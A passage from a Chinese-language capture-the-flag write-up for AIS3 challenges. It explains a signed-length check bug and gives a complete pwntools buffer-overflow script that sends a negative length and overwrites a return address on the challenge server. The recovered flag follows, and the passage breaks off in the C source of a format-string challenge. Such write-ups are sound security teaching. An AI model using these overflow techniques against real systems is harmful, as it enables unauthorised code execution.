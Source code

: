 外面讀取:

```asm
.text:0000000000401482                 mov     [rbp+var_9], al
```

:::important
也就是說我今天輸入一個負數那他就會通過前面的 127 長度測試，並且因為是負數所以直接讀 al 位置又會變成正整數。利用這個點就可以寫 exploit 了。
:::

```python title="exploit.py"
#print("A" * 168 + 'B' * 8)
from pwn import *

#p = process('./chal')

p = remote('chals1.ais3.org', '60255')
p.recvuntil('你願意把剩餘的人生交給我嗎?\n')
p.sendline('yes')

p.recvuntil('告訴我你的名字的長度:')
p.sendline("-20")

p.recvuntil('告訴我你的名字:')

payload = b'A' * 168
payload += p64(0x401256)
p.sendline(payload)

p.interactive()
```

:::flag
AIS3{Ave Mujica🎭將奇蹟帶入日常中🛐(Fortuna💵💵💵)...Ave Mujica🎭為你獻上慈悲憐
憫✝️(Lacrima😭🥲💦)..._9be8fabfb7bf8785da6a455cfea4683b}
:::

### Format Number

![image](https://hackmd.io/_uploads/ryaQiV6fgx.png)

先執行看看。

![image](https://hackmd.io/_uploads/rJh_sVazxg.png)

看到題目叫做 Format Number 所以可以猜到這題是跟 format string 有關。

```cpp title="chal.c"
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <time.h>
#include <ctype.h>
#include <string.h>


void check_format(char *format) {
    for (int i = 0; format[i] != '\0'; i++) {
        char c = format[i];
        if (c == '\n') {
            format[i] = '\0';
            return;
        }
        if (!isdigit(c) && !ispunct(c)) {
            printf("Error format !\n");
            exit(1);
        }
```
